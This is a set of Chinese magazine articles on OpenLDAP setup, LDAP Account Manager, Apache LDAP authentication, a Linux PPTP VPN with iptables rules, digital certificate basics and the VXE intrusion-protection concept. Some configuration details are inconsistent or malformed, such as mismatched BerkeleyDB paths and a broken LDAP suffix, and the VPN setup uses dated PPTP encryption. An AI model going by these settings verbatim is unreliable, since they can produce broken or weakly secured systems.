- （3）LDAP支持强认证方式，可以达到很高的安全级别。在国际化方面，LDAP使用了UTF-8编码来存储各种语言的字符。
- （4）更灵活地添加数据类型：LDAP是根据Schema的内容定义各种属性之间的从属关系及匹配模式的。例如在关系型数据库中如果要为用户增加一个属性，就要在用户表中增加一个字段，在拥有庞大数量用户的情况下是十分困难的，需要改变表结构。但LDAP只需要在Schema中加入新的属性，不会由于用户的属性增多而影响查询性能。
- （5）LDAP数据库是对读操作进行优化的一种数据库，在读写比例大于7:1的情况下，LDAP会体现出极高的性能。这个特性正适合了身份认证的需要。

目前，很多公司都把LDAP和自己的产品、技术结合在一起，增加LDAP在各个领域中的有效性，这一切都来源于LDAP是一个开放的协议，很容易和其他标准协议共存。

## LDAP软件的选择

目前，几乎所有大IT厂商都有自己商用的LDAP产品，每个厂商的LDAP产品都有其特点，很多时候用户更多地选择开源的OpenLDAP。

OpenLDAP与其他的商用软件相比有很多优势：商用的软件版本更新很慢，对Bug的反应速度比开源软件差许多。OpenLDAP还包含了很多有创造性的新功能，能满足大多数使用者的要求。笔者曾使用过许多商用LDAP产品，OpenLDAP是其中最轻便且消耗系统资源最少的一个。OpenLDAP是开源软件，近年国内很多公司开发的LDAP产品都是基于OpenLDAP开发的。

OpenLDAP的源代码可以到官方网站（http://www.openldap.org/）下载，安装过程也很简单。由于OpenLDAP需要Berkeley DB来存放数据，所以需先安装Berkeley DB 4.4.20，可到它的网站下载，网址见上。

```bash
# tar -zxvf db-4.4.20.tar.gz
```

解压后，会生成一个db-4.4.20目录，进入该目录下的build_unix目录。执行以下命令进行配置安装。

```bash
# ../dist/configure
# make
# make install
# tar -zxvf openldap-stable-20090411.tgz
```

解压完成后，会生成一个openldap目录，进入该目录，执行以下命令进行配置安装。

```bash
# env CPPFLAGS="-I/usr/local/BerkeleyDB.4.2/include" LDFLAGS="-L/usr/local/BerkeleyDB.4.4/lib" ./configure --prefix=/usr/local/openldap --enable-ldbm
```

注意以上配置语句，要设置资料库的include和lib路径，否则在配置到资料库相关内容时会提示Berkeley DB版本不兼容，并中断配置。如果没有`--enable-ldbm`选项，在make test时会提示LDBM找不到。为了减少出错，还是加上为好。

```bash
# make depends
# make
# make test
```

在make test阶段要花费较长时间进行测试，好像有16项吧。你可以放松一下，这个时间应该是最紧张的了。

```bash
# make install
```

通过配置命令可以看出，我们把OpenLDAP安装到/usr/local/openldap目录下，建议以源码安装的软件都放到独立的目录下，不要放到软件默认的目录。好处是方便管理和控制，所有文件在统一的目录下，卸载软件只要删除整个目录就可以了。在此过程中需要注意如下几个地方。

- （1）在执行configure之前要确定安装了Berkeley DB，虽然OpenLDAP可以使用很多数据库做back-end，但Berkeley DB仍然是OpenLDAP开发团队强烈推荐的。

（2）如果需要更安全的方式访问 OpenLDAP，在配置执行 `configure` 之前要确定已经安装了 `cyrus-sasl`。

（3）有些用户在安装 OpenLDAP 的时候忽略了最后的 `make test`，经验告诉我们很多错误都会在执行 `make test` 的过程中暴露出来。OpenLDAP 的开发团队很注意维护软件的 Test Case，整个测试非常全面，很好地保证了软件投入使用后的稳定性。

默认情况下，OpenLDAP 的配置文件保存在 `/usr/local/etc/openldap` 下的 `slapd.conf` 中。管理员密码默认是明文表示，可以用 `slappasswd` 命令生成密文替换配置文件中的明文。以图3为例，配置文件相关项应做如下更改：

```text
suffix    "dc=ldap,abcde=org"
rootdn    "cn=manager,dc=ldap,abcde=org"
directory /usr/local/var/openldap-data
```

其中 `directory` 参数为数据文件在服务器上的位置。出于稳定性和性能考虑，数据文件最好放在独立分区或磁盘阵列上。配置文件的 ACL 部分也十分重要，很多读取或修改操作不能正常完成都是由于 ACL 写法错误造成的。下面是默认情况下 ACL 部分的配置：

```text
access to attrs=userPassword
  by self write
  by * auth
access to *
  by * read
```

#### 轻松搞定 LDAP 账号管理

在这里笔者告诉大家使用 PHP 语言开发基于 Web 的 LDAP 管理器，并着重分析该管理器中类属性与对象类的继承关系、修改过程的递归关系时所用到的相关技术及算法，使得我们在使用和管理 LDAP 账号等方面变得更加简便。

LDAP Account Manager（LAM）采用 PHP 4/5 编写，是基于 Web 的 LDAP 用户、用户组、主机和 LDAP 目录的管理系统。管理员可以通过 SSL/TLS 加密方式进行操作，增强了安全性。LAM 支持管理的账号类型有 Samba 2/3、UNIX、Kolab 2、地址簿接口和计算机管理需要的信息，包括 NIS 映射、Email 假名、MAC 地址等。

### 1. LDAP Account Manager 的强大功能

- 使用 LAM，可以通过 Web 接口较为直观、简便地管理存储在 LDAP 目录里的用户、用户组和计算机系统账户。
- 可以管理 UNIX 的用户、用户组、主机、域名。
- 具备强大的过滤和排序功能。
- 具有账号属性管理。
- 多构造属性。
- 直观的树状查看模式。
- 计划查看模式。
- 开放式的编辑器。
- 通过文件上传创建账户。
- 所有账号可导出为 PDF 文档格式。
- 可以管理用户、用户组、配额和自动创建/删除用户 Home 目录。
- 支持 LDAP+SSL 加密模式。
- 多国语言支持（Catalan、Chinese(Traditional)、Dutch、English、French、German、Hungarian、Italian、Japanese、Spanish 等）。

### 2. 安装需求

- PHP 4/5 语言环境和 Perl 语言环境。
- OpenLDAP 2.0 或更高版本。
- 支持 CSS 的网页浏览器。
- Apache Web Server，建议安装 SSL、PHP-Module（ldap、gettext、XML、mcrypt、mhash）等模块。

### 3. 安装和使用

首先从 `http://lam.sourceforge.net/` 下载 LAM 压缩包，解压缩并修改 PHP 的配置文件 `php.ini` 的如下内容：

```text
memory_limit=64M
```

接下来复制文件到 Web 服务器的 html-file 目录（如 `apache/htdocs`），并给下面的文件设置合适的读写权限。

- `lam/sess`：设置给 apache 用户写权限。
- `lam/tmp`：设置给 apache 用户写权限。
- `lam/config`（包括子目录）：设置给 Apache 用户写权限。
- `lam/lib/lamdaemon.pl`：必须设置为可执行权限。

然后配置 `config.cfg` 文件，创建一个配置属性，设置密码，并复制 `config.cfg_` 到配置目录。最后，在浏览器中打开 `index.html`，在 Configuration Login 处可以使用默认密码“lam”登录进行相关操作，如图4所示。


图6


图4

### 4. 配置管理 LAM

成功登录进入 LAM 系统后，通过网页的形式对我们的 LDAP 进行管理就变得十分直观和简单了，通过鼠标单击就可以轻松查看和管理我们的 LDAP，还可以在线编辑和数据导出。在 LAM 系统中，我们主要可以进行如下的操作。

- LAM 系统配置 LAM 的具体配置，如图5所示。  
    
  图5
- LAM 模块选择和管理，让 LAM 列出用户信息。
- 修改用户信息，在 LAM 中查看和修改用户。

不仅如此，LAM 的管理功能十分全面，还可以对用户进行很多操作，如列出用户组信息、列出所管理的服务器主机信息、通过文件上传方式创建用户、树状查看方式、Samba 信息查看修改、开放式在线编辑模式和 LDAP 信息 PDF 文件格式输出等，对于系统管理员来说实在是太方便了。

#### 配置 Apache 支持 LDAP

虽然各种软件支持 LDAP 的方法有两种，但本质上是一样的，只是一些软件希望自主开发 LDAP 的支持，另一些软件使用 PAM 已经开发好的 LDAP 支持。任何一个软件要通过 LDAP 做用户认证，至少要在软件的配置文件中提供两个认证所需要的信息，一个是 LDAP 服务器的 IP 地址，另一个是需要认证的用户在 LDAP 数据库中的位置。前面提到过，LDAP 数据库是和 DNS 类似的树状结构，每个用户作为叶子节点被放置在这棵树上，而这些用户的父节点就是认证所要提供的用户在 LDAP 数据库中的位置。如图3所示，如果要给亚洲地区市场部的所有员工提供 FTP 登录账号，需要提供的用户在 LDAP 数据库中的位置就是“ou=Sales,l=Asia,o=ldap_abc.org”。下面以 Apache 为例介绍一下软件的配置。

Apache 和 LDAP 整合可以用来限制用户以 HTTP 方式访问文件的权限，Apache 使用 LDAP 做用户认证有很多现实意义，首先可以限制用户对公司内部 HTTP 敏感内容的访问。此外，很多版本管理软件（如 Subversion）都提供了 LDAP 支持，这样在用户需要通过 Web 方式访问文件的时候，可以通过 Apache 的设置来限制用户对文件的访问权限。Apache 是从 2.0.41 以后才开始支持 LDAP 的，如果希望使用 LDAP 做身份认证，就要安装 Apache 2.0.41 以上的版本，企业版本的 RedHat AS 3/4/5 默认安装的 Apache 2.0 就已经把 LDAP 相关的模块进行了编译，用户只需正确修改 Apache 的配置文件就可以支持 LDAP 认证。

下面代码是对保护目录 `/var/www/html/internal` 设置了一定权限。

```apache
<Directory /var/www/html/internal>
  AuthName "Welcome to Linux"
  AuthLDAPEnabled on
  AuthLDAPURL ldap://192.168.1.2/ou=Sales,l=Asia,o=ldap-abc.org?uid
  Require valid-user
</Directory>
```

- **AuthName** 是可选项。用户访问受保护目录时，浏览器会弹出输入用户名和密码的窗口，AuthName 内容显示在标题栏（支持中文）。
- **AuthLDAPEnabled** 是可选项，默认值为 `on`。当目录需要认证时启用；若如 `/var/www/html/internal/pub` 需要公开访问，可设为 `off`。
- **AuthLDAPURL** 为必填项。`192.168.1.2` 为 LDAP 服务器 IP，`ou=Sales,l=Asia,o=ldapabc.org` 为用户在 LDAP 数据库中的位置，`uid` 表示以用户 `uid` 属性值作为认证用户名。
- **Require valid-user** 表示只有认证成功用户才能访问指定资源。

LDAP 树结构设计下面用一个实际案例介绍：某企业总部在北京，在上海、广州设有分部，多个部门分布在三地；员工每天更新工作成果，并使用企业内部 FTP、CVS 等服务，公司内部 Linux 服务器只允许有权限账号登录。员工使用上述服务时需要进行身份认证。

在这种情况下，既可购买昂贵数据库服务器部署大型商业数据库，也可采用开源软件方案。首先要考虑数据拓扑。若数据库仅放在一个城市，网络高峰会影响认证速度、降低效率。因此可采用两种方案：一种是主 LDAP 服务器放北京，同时在上海、广州部署 LDAP 服务器，类似 DNS 区域授权，将各地员工管理下放到本地服务器；这样既提升效率，又避免单点故障影响其他城市认证服务。

如图7所示，3 台服务器上的 LDAP 分支在同一棵树上通过类似“引用”的属性连接。3 个城市都有管理员维护本地分支。这样在搜索或查询公司员工信息时更方便；若某城市员工较多或负载过重，还可增加 LDAP 镜像服务器实现负载均衡。该设计中每个 LDAP 服务器都可读写。


另一种方案是在北京存放一台主 LDAP 服务器，同时在北京、广州、上海分别部署辅助 LDAP 服务器。主 LDAP 服务器负责写入数据，辅助 LDAP 服务器只读，数据库修改先写主服务器，再同步到各辅助服务器。

前置知识：Linux  
关键词：网管、VPN、防火墙

#### 巧用 Linux 实现局域网安全访问

文/图 Winbo


目前，许多局域网都有内部办公系统或其他服务器，外网用户无法直接对其进行访问。例如住在学校外的师生、出差在外的职员，往往无法访问一些没有对外网开放的网络资源。当然，这也有网络安全方面的考虑。如果有一种安全实用的远程接入技术，那么这些问题将会迎刃而解。VPN 系统就是一种比较合适的方法，它可以提供一个安全可靠的接入方式，通过 VPN 系统为客户机分配一个内网 IP，这样用户便可以在外网方便地访问内网的网络资源，也就解决了上述我们在外网遇到的不能访问内网资源的问题。但是，目前市场上流行的一些 VPN 专用设备，如兼容 VPN 的路由器、VPN 型防火墙等，价格大都在数万或数十万以上，申请这样的开支往往会有一定的难度。那么，有更加强经济实惠的办法吗？下面，我们就借助于 Linux 安全配置，通过几个简单的步骤来解决上述问题。

##### 搭建 Linux 环境下的安全访问系统

为了方便测试，首先在一台普通服务器上安装企业版 Red Hat Linux。根据大家的具体资源情况以及接入用户的数量，既可以选择普通的台式机，也可以选择一台性能稍好的空置服务器。

- 基础环境安装及配置

VPN（虚拟专用网络）可看成是一个构建在公共网络基础设施上的、同时具有安全特性的网络或网络环境，也可以理解为一种公共网络中隔离出来的安全网络。为了降低实现 VPN 系统的复杂程度并实现路由功能，我们选择安装双网卡的技术方法，即一张网卡面向外网接入，另一张网卡实现内网连接。双网卡安装及配置的关键点是把 Linux 缺省的网关指到外网所在的网卡上，这点是关系到系统能否运行成功的关键所在。为了保证测试的正常进行，这里假设内网（eth0）IP 为 192.168.10.99，内网网关为 192.168.10.1；假设外网（eth1）IP 为 202.110.168.6，外网网关为 202.110.168.254。具体步骤如下。

- 先安装好第一块网卡，默认为 eth0，插上内网线。
- 插上第二块网卡，开机检测，并允许对第二块网卡进行配置。
- 在 Linux 平台下，设置好两块网卡的 IP、子网掩码等信息。同时，设置好外网网卡的 DNS（如 202.103.0.117）和默认网关。
- 设置系统默认路由。将系统默认路由设置为外网接口地址，参考命令为 `route add default gw 202.110.168.254`。上述步骤比较简单，甚至完全可以在图形界面下配置完成。

### 2. 软件及补丁准备

既然如此，现在就可以通过 ISP 提供的各种 Internet 接入 VPN 服务，可以方便建立物理连接。核心内容主要包括配置管理技术、隧道技术、协议封装技术和密码技术。以上这些技术构成了一个安全可靠的专用网络。配置 VPN 系统之前，还需要准备相关的软件补丁。为了让 Red Hat 企业版 Linux 支持 PPTP 协议和微软点对点加密 MPPE（由于客户端大多为微软的操作系统），要对系统内核打补丁、升级自带的 PPP 程序、安装 PPTP 和 MPPE 软件包。这些软件可通过 Poptop 网站下载，地址为 `http://www.poptop.org`。相关软件包括：

- `dkms-2.0.10-1`，动态内核模块支持；
- `kernel_ppp_mppe-0.0.5`，MPPE 加密协议的内核补丁；
- `ppp-2.4.3`，用于支持 MPPE 加密协议；
- `pptpd-1.3.4`，PPTP 点对点隧道协议。

这些软件均提供了 RPM 格式，直接将该格式文件下载到本地 Linux 服务器即可。

#### 川流不息：VPN 服务器的搭建

万事俱备，只欠东风。现在，就可以安装 VPN 服务器了。通过修改 `/etc/pptpd.conf` 和 `/etc/ppp/chap-secrets` 文件配置 VPN 服务器的运行参数。需要注意的是，每次修改配置文件的配置后，都需要重新启动 PPTP 服务才能使新的配置生效。

步骤1：安装软件包。VPN 服务器的软件都是 RPM 安装包，安装起来比较方便，可以使用下面的命令安装和升级。以动态内核模块的安装为例，参考命令为 `rpm -ivh dkms-2.0.10-1.noarch.rpm`。使用类似的方法，完成其他三个软件包的安装。

步骤2：配置 VPN 服务器的主配置文件。PPTP 服务的主配置文件是 `/etc/pptpd.conf`。进入该文件，首先设置 VPN 服务器的本地地址。其中 `localip` 选项定义了 VPN 服务器本地的地址，客户机在拨号后，VPN 服务器会自动建立一个 PPP 网络接口供客户机使用；`remoteip` 选项定义了分配给 VPN 客户机的地址段，当 VPN 客户机拨号到 VPN 服务器后，服务器从这个地址段中分配一个 IP 地址给 VPN 客户机，以便客户机能访问内网。和 Windows 下的页码打印类似，可以用“-”符号表示连续的地址，用“,”符号隔开不连续的地址。

步骤3：配置账号文件。账号文件 `/etc/ppp/chap-secrets` 保存了 VPN 客户机接入时所使用的账户名、口令和分配的 IP 地址，该文件中每个账户的信息为一行。如果分配给账户的 IP 地址参数为“*”，表示 VPN 客户机 IP 地址由 PPTP 服务随机在地址段中选择。

```bash
service pptpd start
service pptpd stop
service pptpd restart
chkconfig pptpd on
```

步骤4：对 VPN 服务的操作。设置 VPN 服务时，包括启动、停止、重新启动、自动启动等。其中，启动 VPN 服务的命令为 `service pptpd start`；停止 VPN 服务的命令为 `service pptpd stop`；重新启动 VPN 服务的命令为 `service pptpd restart`；如果需要让 VPN 服务随系统启动而自动加载，可以执行命令 `chkconfig pptpd on`。

步骤5：配置 Linux 内核路由。在局域网内部通常存在多个不同的网段，为了能让 VPN 客户机与内部网络的各个网段互连，还应打开 Linux 内核的路由功能以及配置相应静态路由，否则 VPN 客户机只能访问 VPN 服务器内部网卡所在的网段。如果要永久修改内核路由参数则可以通过 VI 编辑器打开以下配置文件：`vi /etc/sysctl.conf`，加入 `net.ipv4.ip_forward=1` 即可。使用静态路由，可让 VPN 客户机通过所在内部网段访问其他内部网段的网络资源。通常情况下，内网有多少个网段就添加多少条静态路由。添加静态路由尽量把路由添加到路由配置文件，这样在重新启动操作系统后，静态路由不会丢失。可以通过 VI 编辑器打开 `/etc/rc.d/rc.local` 文件，在 `rc.local` 文件的最后一行添加一条静态路由，命令格式如：`route add -net 内网网段网络地址 netmask 255.255.255.0 内网网卡名`。

设置完毕，建立 VPN 拨号，然后指定 IP 为 VPN 服务器的 IP 地址，进行拨号连接，测试通过。不过，对于一个安全的网络来说，这只是万里长征走完了第一步，适当的安全防范也是十分重要的一部分。

FORWARD。如上例所示，每一个数据包都要通过三个内建的链（INPUT、OUTPUT 和 FORWARD）中的一个。filter 是最常用的表，在 filter 表中最常用的 3 个目标是 ACCEPT、DROP 和 REJECT。ACCEPT 表示接受信息；DROP 会丢弃数据包，不再对其进行任何处理；REJECT 会把出错信息传送至发送数据包的主机。实际应用中，一般是要阻止来自某一特定 IP 范围内的数据包，因为该 IP 地址范围被管理员怀疑有大量恶意攻击者在活动：

```bash
iptables -t filter -A INPUT -s xxx.xxx.xxx.0/24 -j DROP
```

当然，也可以很轻易地阻止所有流向攻击者 IP 地址的数据包，该命令稍有不同：

```bash
iptables -t filter -A OUTPUT -d xxx.xxx.xxx.0/24 -j DROP
```

#### 巧用防火墙提高 VPN 安全性

由于 VPN 系统是基于 Linux 的，因此从系统安全性考虑，我们可以开启 Linux 服务器的 iptables 防火墙功能。但要能让客户机通过防火墙访问 VPN 服务，必须在 iptables 防火墙上开启 VPN 服务相应端口。该防火墙软件包内置于 Linux 内核中，是一种基于包过滤型的防火墙实现技术。其中心思想是根据网络层 IP 包头中的源地址、目的地址及包类型等信息来控制包的流向，更彻底的过滤则是检查包中的源端口、目的端口及连接状态等信息。要查看系统中现有的 iptables 规则集，可以运行 `iptables --list`，如图1所示。

> 关于 A 选项。这里使用 A 选项说明是给现有的链添加规则。网络上的恶意攻击者总是在变化的，因此需要不断改变 IP。假设一个网上攻击者转移到新的 IP 地址，而原来的 IP 地址被分配给一些清白的用户，那么这时这些用户的数据包将无法通过网络。

在通常情况下，一个配置适当的防火墙不仅是系统有效应对外部攻击的第一道防线，也是最重要的一道防线。在新系统第一次连接上网络之前，防火墙就应该被安装并配置好。PPTP 服务使用 TCP 协议的 1723 端口和编号为 47 的 IP 协议（GRE 常规路由封装）。如果 Linux 服务器开启防火墙功能，就需设置允许 TCP 协议的 1723 端口和编号为 47 的 IP 协议通过，可以使用以下命令开放 TCP 协议的 1723 端口和编号为 47 的 IP 协议。


图1

Linux 内核中默认有 3 个被称为“防火墙规则”的过滤表，分别是 INPUT、OUTPUT 和 FORWARD。

```bash
iptables -I INPUT -p tcp --dport 1723 -j ACCEPT
iptables -I INPUT -p gre -j ACCEPT
```

通过这个方案的实施，大大降低了高昂线路租用费用。由于 Linux 遵循通用公共许可证 GPL，因此任何人有使用、复制和修改 Linux 的自由，VPN 系统在 Linux 上安装自然也是免费的。而且，本系统属于轻量级 VPN 系统，特别适合为节约资金又渴望实现 VPN 服务的单位。当然，该类型 VPN 系统存在着需要改进的方面，例如它从配置管理以及系统管理上还比较原始，需要靠熟悉。Linux网络操作系统的管理员来操作配置文件。这样使得VPN系统中，如用户开户、IP段地址配置、路由设置等系统配置及管理十分不便。从后续方法的优化来看，如果能够制作一个基于后台数据库、有图形化操作界面的VPN管理系统，那么这样的VPN系统将更加实用。当然，开发这个系统时，也可以考虑使用完全免费的MySQL数据库。篇幅所限，这里就不再详述了。

可见，使用双网卡搭建基于Linux的VPN系统，在实现VPN系统的同时可以为单位节省大量的开支；使用Linux系统自带的Iptables防火墙，又可以对系统的访问进行有效的安全控制。总之，目前VPN技术凭借其特有的灵活性、安全性、经济性和扩展性等，已成为企业、院校等主流的远程访问方式之一，大大降低了建设专用网络连接所需的高昂线路租用费用。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：密码学  
关键词：PKI，数字证书

#### 数字证书原理及应用


文/图 余跃 孔亚楠

前面几期的黑防中，我向大家介绍过SSL协议的原理，以及如何利用OpenSSL进行一些密码学方面的编程，这些文章中都提到了数字证书这个概念。本文就向大家介绍一下PKI公钥体系中的非常核心元素——数字证书的原理及应用，也算为后续的数字证书编程解析打个基础。

数字证书在实现身份认证、加密传输等方面起着非常关键的作用。例如在SSL、SET等安全协议通信时，数字证书用于通信双方进行身份认证，并且依靠数字证书和非对称加密算法加密传输数据，或者根据数字证书协商通信双方的共享密钥。本文中涉及的一些概念和解释存在很多个人的理解，难免存在不足与疏漏，望大家提出指正。

PKI是一种遵循既定标准的管理平台，能够为所有网络应用提供加密和数字签名等密码服务及所必需的密钥和证书管理体系。简单来说，PKI就是利用公钥理论和技术建立的提供安全服务的基础设施。PKI一般体系如图1所示，构建实施一个PKI系统也是围绕这些部分来进行的。

### PKI介绍

提到数字证书，不得不先简单介绍一下PKI公钥体系。PKI（Public Key Infrastructure，公钥基础设施）技术是信息安全技术的核心，也是电子商务的关键和基础技术。PKI是一种遵循既定标准的管理平台，能够为所有网络应用提供加密和数字签名等密码服务及所必需的密钥和证书管理体系。


图1

在我看来，PKI提供的是一个标准的安全体系保障，其中最重要的是认证机构，也就是我们常说的CA（Certificate Authority）组件。CA的实现前提是：必须保证CA是绝对可信，也就是常说的“可信第三方”这个概念。PKI整个信任体系都建立在至少一个可信第三方的存在之上。所以，CA是PKI的核心执行机构，由CA签发的数字证书是PKI体系的核心元素。CA的组成根据不同应用有所区别，但是CA的职责一定包括：

- 验证并标识证书申请者的身份，签发数字证书。签发的数字证书中必须保证证书标识的唯一性、签名证书的安全性、证书的有效期等问题，保证申请者拿到的数字证书在应用中是可信的。
- 日志记录数字证书的签发，管理数字证书。CA服务器必须保证所签发的数字证书可以进行检索（常采用LDAP协议）、更新、撤销、作废等操作，以便对签发的数字证书进行维护管理。

##### 数字证书原理

PKI所提供的所有安全服务（身份认证、数据完整性保证、数据加密、抗否认性等）都是围绕数字证书的运用展开的。对于数字证书的定义有很多，其本质我认为是具有“权威性”的电子“信息”。这里的“信息”包含了用户在网络活动中用到的公钥及用户个人公开的信息。之所以称这些信息为“权威性”，是因为信息的内容是相互绑定的，绑定关系是可信的，是可以验证的。通俗地说，数字证书在网络活动中的地位相当于身份证在社会中的地位，如图2和图3所示。

| 字段 | 内容 |
|---|---|
| 持有者（Subject）标识符 | 姓名 |
| 序列号 | 身份证号 |
| 公钥 | 照片 |
| 有效期 | 有效期 |
| 签发者（Issuer）标识符 | 签发单位 |
| CA的数字签名 | 签发单位盖章、防伪标志 |

图3

目前的应用中，数字证书都采用X.509标准，发展到现在是V3版，即通常说的X.509 V3证书，其格式如图4所示。


图4

如果有人用记事本打开电脑上的证书，可能会发现数字证书有自己的编码方式，即DER（二进制编码）和PEM（Base64编码），这两种编码都不包含用户私钥。而带有私钥的证书由Public Key Cryptography Standards #12（即PKCS#12）标准定义，包含了公钥和私钥的二进制格式的证书形式，可以装在计算机上。

##### 数字证书应用分析

由上述可见，数字证书之所以能用于网络活动中的身份认证、数据完整性保证、数据加/解密等方面，跟它的设计密切相关。下面我们具体分析应用最广泛的两个方面——身份认证以及数据加/解密和完整性验证。

- 身份认证  
  数字证书中包含了用户的个人信息和公钥，并且两者的绑定关系是可信的，经过可信第三方证明的：假设用户A、B正在进行网络通信，A需要验证B的合法身份。A得到了B的数字证书，首先验证这个证书的合法性。由于证书上带有CA（可信第三方）的数字签名，即对整个证书信息作Hash消息摘要，然后用CA私钥加密签名。所以，证书内容是不可能被修改的，被非法用户修改后的证书签名是不匹配的，A只需要用CA的公钥对签名做一次解密，然后验证证书的Hash消息摘要即可。接着，A从证书中取出B的个人信息，确定B的身份，这样A对B的身份认证就完成了。


图2

- 数据加/解密、完整性验证  
  数字证书中带有用户的公钥，当用户A、B在不安全的网络信道通信时，希望自己所发送的数据是加密的，并且只有对方能看见。首先，A在本地随机生成一个大随机数充当会话密钥，然后用对称加密算法（DES、AES等）加密传输数据。接着，A用B的证书中包含的公钥加密这个随机数，拼接在数据后面。最后，A用Hash算法，对整个数据作Hash，并且利用自己的私钥进行加密签名（这就是消息认证码MAC），放在数据包最后，发送给接收方B。B收到A的数据包后，首先利用A的证书验证消息认证码MAC，这就保证了数据在传输过程的完整性。然后，用自己的私钥解密会话密钥后，得到A发送过来的信息。

整个过程就是我们常说的数字信封。其实，在SSL、SET等安全协议中，数字证书的应用跟上述类似。由上述分析，我们可以总结数字证书在网络中的通用模型，如图5所示。

##### 数字证书的分发和存储

数字证书整个应用体系中必须保证两点：一是证书私钥的绝对保密性；二是证书公钥的可查性或者说发行性。在用户申请证书的时候，CA将证书分发给用户的途径有多种。第一种途径是带外分发（Out-of-band Distribution），即离线方式。例如在北京国税的证书项目中，密钥对是由软件运营商代替客户生成，证书也是由运营商代替客户从CA下载，然后把私钥和下载的证书一起储存在软盘里，再交给用户的。这样做的好处是免去了用户上网下载证书的麻烦。第二种途径是带内分发（In-band Distribution），即在线方式。用户从网上下载数字证书到自己的电脑中；下载时，用户要向CA出示参考号和授权码，以向CA证明自己的身份。除了以上两种方式外，CA还把证书集中放置在公共的数据库中公布，用户可以随用随查询随调用。

数字证书和私钥存储的介质有多种，可以存储在计算机硬盘、软盘、智能卡或USB Key里。这就有可能面临私钥泄露的危险！目前比较可靠的是USB Key的方式，将用户私钥透明地存放在硬件中，使用的时候在接口读入。为了防止USB Key被盗用，在证书应用系统中，还应该设计口令认证。

##### 小结

本文主要讲述了PKI体制及数字证书的基本原理和应用。个人认为，只有了解这些基础知识，才能更合理地充分利用数字证书或其他密码学知识，解决网络中的安全接入、安全通信、隐私保护等问题。在后续的文章中，我还会介绍数字证书解析、数字证书签发等操作的具体编程实现。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找。）


前置知识：Linux  
关键词：网管、VXE、IPS

## 用VXE保护Linux系统安全


文/图 北京 李晨光

所有的操作系统都有漏洞，没有一个系统是安全的，任何接入互联网的系统都会受到探测并可能遭到入侵。Linux尽管被公认为是比较安全、运行稳定的操作系统，但Linux自身同样存在不少隐藏的弱点。如今互联网变得如此流行，每个人都在使用Linux，这是因为Linux功能强大而且价格便宜。也正是因为Linux非常便宜，许多人安装Linux后会忽视安全问题，由于粗心大意或是能力有限而没能很好地保护它们。

根据网络安全专家分析，Linux存在的主要弱点包括示例脚本、无关软件、开放端口、未打补丁和弱口令等问题。然而，最令人担心的则是Linux下超级用户的权限过大问题。有人形象地比喻，Linux下的超级用户就是上帝，他可以让你生，也可以让你死。黑客们常用的Linux入侵技术就是提高权限。如果一名黑客能通过一些手段在Linux中将一个普通用户权限提升为root用户特权，毫无疑问他就能控制整个Linux系统。

这里我们将谈谈虚拟执行环境技术（Virtual eXecuting Environment，VXE）。简单来说，VXE是一个入侵保护系统（IPS）。入侵保护系统被看作是入侵检测系统的一个重要发展方向，它解决了入侵检测系统不会主动在攻击发生前阻断攻击的重要问题。入侵保护不仅可以进行检测，还能在攻击造成损坏前阻断它们，从而将入侵检测系统提升到一个新水平。

### VXE的工作原理

VXE提供对Linux/UNIX系统的保护，阻止黑客通过网络入侵。它主要通过保护主机及Linux下的子系统和服务来保证系统安全。例如，Linux下一般都会提供SSH、SMTP、POP和HTTP等服务，这些服务虽然经过很长时间的发展和使用，但是仍然会存在隐藏的Bug。VXE在Linux系统中的任务很简单，就是保护主机和应用程序的安全，对用户调用Shell的行为做出必要的限制，对提供CGI（公共网关接口）的服务器进行脚本保护。因此可以看到，VXE的最大特点是无需改变这些子系统及程序的设置，而仅仅只是去保护它们。

在Linux中当以root用户来运行一个程序的时候，如果必要的话，这个程序可以调用和访问到系统中所有的资源。尽管这样看起来很方便，对程序的运行也相当有好处，但是这种情形也给系统安全埋下了隐患。一旦黑客能通过缓冲区溢出攻击来控制该程序，破坏的范围就非常广泛，这无疑是我们不想看到的后果。

通常情况下，在Linux/UNIX系统上管理员有许多的事情要做，因而没有时间和精力正确地配置软件。这时为了保证系统能在尽可能短的时间内运行，管理员不得不在root权限下安装并配置程序或进程，这是保证这些进程能对所需要资源进行访问的一个快捷、简便的方法，也是使系统变得脆弱并成为攻击者目标的一个快捷简便的方法，特别是对缓冲区溢出攻击。正确地配置所有软件，使其在尽可能少的权限下运行是非常关键的。这样即使攻击者可以攻击系统、击溃某一个程序，但是由于攻击者权限受到限制，而不会造成更大的危险。

众所周知，有些应用程序在编程的过程中，不可能在短期内发现程序的缺陷，需要不断地改进才能达到软件的完整性。在此期间，该程序将会留下许多潜在的问题。VXE技术针对程序可能遭到的缓冲区溢出攻击提供必要的保护。

当一个程序在Linux下运行时，VXE会为该程序提供一个单独的虚拟执行环境来保证程序的运行安全。VXE只提供给程序合适的系统资源进行限制，而不是让程序最大地调用任意的系统资源。通过最少的权限运行软件，可以确保运行在系统上的所有软件配置正确。

当整个组织机构实施安全策略时，作为系统管理员，必须牢记POLP（Principle of Least Privilege，最小权限原则）。POLP规定运行在系统上的所有程序或使用系统的任何人，都应该赋予他们所需要的最少权限，其他权限一律禁止。例如，我们所提供的POP服务其最大功能是接收电子邮件，而与之无关的拷贝功能、文本编辑功能都必须禁止。VXE正是给Linux系统管理员提供了这样的方便，尽量地把与POP服务无关的功能禁止，为popd进程提供较为安全的保护。

### 与chroot服务的比较

谈到VXE，Linux系统管理员很容易会联想到在Linux中的chroot服务监控。chroot服务监禁同样是把运行在Linux主机上的各种服务，比如DNS、MySQL、Web等放置在特定chroot环境中运行，从而把这些服务与整个系统隔离开来。这样，即使黑客利用服务漏洞攻破了应用，也很难突破该chroot环境来危害Linux全局。

VXE和chroot相比，功能更为强大，配置和使用较chroot方便许多。VXE不仅能严格地限制文件系统的访问权限，还能对子系统的调用、进程之间的通信进行约束。例如，在POP服务中，即使使用了chroot进行服务监禁，POP Server还是能读取`/etc/passwd`和`/etc/shadow`的信息，也能进行拷贝、共享Lib库等操作，这样仍然不够安全。使用VXE对POP服务进行约束则能很好地解决这个问题。

防范缓冲区溢出攻击的办法就是先发制人，不应该等到攻击者发现缓冲区溢出漏洞并开始攻击用户计算机的时候，才想起要对系统中正在运行的程序进行保护，这也是Linux下使用VXE来保证系统安全的根本原因。

